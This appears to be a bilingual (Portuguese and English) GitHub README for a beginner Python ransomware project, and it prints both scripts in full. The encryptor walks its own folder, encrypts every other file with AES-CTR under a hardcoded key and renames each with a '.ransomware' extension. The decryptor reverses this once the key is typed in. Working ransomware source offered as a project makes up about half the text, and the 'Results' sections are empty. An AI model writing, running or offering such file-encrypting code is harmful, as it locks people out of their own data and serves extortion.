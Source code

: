 # Projeto em Python de um Ransomware (PT-BR)

### Funcionamento

- O intuito deste projeto é criar um Ransomware que criptografe arquivos presentes na pasta onde o Malware está.

- Este Ransomware é dividido em dois executaveis, um deles terá a função de criptografar os arquivos e o outro terá o objetivo de descriptografa-los futuramente.

### Código de Criptografia

- O executavel abre todos os arquivos presentes na pasta onde ele se encontra, verificando se já não estão criptografados ou se não são os próprios executaveis.

- Após abrir cada arquivo presente na pasta ele copia os dados e os criptografa, reescrevendo em seguida o arquivo. Ele também substitui a estenção do arquivo para ".ransomware".

```python
import os
import pyaes

for name in os.listdir("./"):
    if name != "decrypt.py" and name != "encrypt.py":
        with open(name, "rb") as file:
            file_data = file.read()

        key = b"secretencryptkey"
        aes = pyaes.AESModeOfOperationCTR(key)

        data_encrypt = aes.encrypt(file_data)

        with open(name, "wb") as file:
            file.write(data_encrypt)

        os.rename("./{}".format(name), "./{}.ransomware".format(name))
```

- A chave de criptografia utilizada foi "secretencryptkey", essa chave será utilizada futuramente durante a descriptografia.

### Código de Descriptografia

- Para que o processo se inicie, o executavel exige que o usuário digite a mesma chave de criptografia que foi utilizada para criptografar os arquivos anteriormente. Se digitado corretamente, o processo se inicia, caso contrário, ele apenas retorna a mensagem "Wrong Key!" para o usuário.

- Após a chave de criptografia ser informada corretamente, o executável abre todos os arquivos presentes na pasta, verificando não são os próprios executáveis e se contém a extensão ".ransomware". Com isso, apenas os arquivos que já haviam sido criptografados serão abertos.

- Para cada arquivo aberto, o executável copia dos dados, os descriptografa e reescreve o arquivo. Para finalizar, ele exclui a extensão ".ransomware". Fazendo com que o arquivo volte a seu estado original descriptografado.

```python
import os
import pyaes

secret = input("What the secret key?")

if secret == "secretencryptkey":
    for name in os.listdir("./"):
        if name != "decrypt.py" and name != "encrypt.py" and name.split(".")[-1] == "ransomware":
            with open(name, "rb") as file:
                file_data = file.read()

                key = secret.encode()
                aes = pyaes.AESModeOfOperationCTR(key)

                data_decrypt = aes.decrypt(file_data)

                with open(name, "wb") as file:
                    file.write(data_decrypt)

                list = name.split(".")
                new_name = "{}.{}".format(list[0],list[1])
                os.rename("./{}".format(name), "./{}".format(new_name))
else:
    print("Wrong Decrypt Key!")
```

### Resultados

- 

# Ransomware Project in Python (EN-US)

### Functionality

- The purpose of this project is to create a Ransomware that encrypts files present in the folder where the Malware is.

- This Ransomware is divided into two executables, one of which will have the function of encrypting the files and the other will have the purpose of decrypting them in the future.

### Encryption Code

- The executable opens all the files in the folder where it is located, checking whether they are already encrypted or whether they are not the executables themselves.

- After opening each file in the folder, it copies the data and encrypts it and then rewrites the file. It also replaces the file extension with ".ransomware".

```python
import os
import pyaes

for name in os.listdir("./"):
    if name != "decrypt.py" and name != "encrypt.py":
        with open(name, "rb") as file:
            file_data = file.read()

        key = b"secretencryptkey"
        aes = pyaes.AESModeOfOperationCTR(key)

        data_encrypt = aes.encrypt(file_data)

        with open(name, "wb") as file:
            file.write(data_encrypt)

        os.rename("./{}".format(name), "./{}.ransomware".format(name))
```

- The encryption key used was "secretencryptkey", this key will be used later during decryption.

### Decryption Code

- For the process to start, the executable requires the user to enter the same encryption key that was used to encrypt the files previously. If entered correctly, the process starts, otherwise, it simply returns the message "Wrong Key!" to the user.

- After the encryption key is entered correctly, the executable opens all files in the folder, checking if they are not the executables themselves and if they contain the ".ransomware" extension. This means that only files that had already been encrypted will be opened.

- For each file opened, the executable copies the data, decrypts it, and rewrites the file. Finally, it deletes the ".ransomware" extension. This returns the file to its original decrypted state.

```python
import os
import pyaes

secret = input("What the secret key?")

if secret == "secretencryptkey":
    for name in os.listdir("./"):
        if name != "decrypt.py" and name != "encrypt.py" and name.split(".")[-1] == "ransomware":
            with open(name, "rb") as file:
                file_data = file.read()

                key = secret.encode()
                aes = pyaes.AESModeOfOperationCTR(key)

                data_decrypt = aes.decrypt(file_data)

                with open(name, "wb") as file:
                    file.write(data_decrypt)

                list = name.split(".")
                new_name = "{}.{}".format(list[0],list[1])
                os.rename("./{}".format(name), "./{}".format(new_name))
else:
    print("Wrong Decrypt Key!")
```

### Results

- 
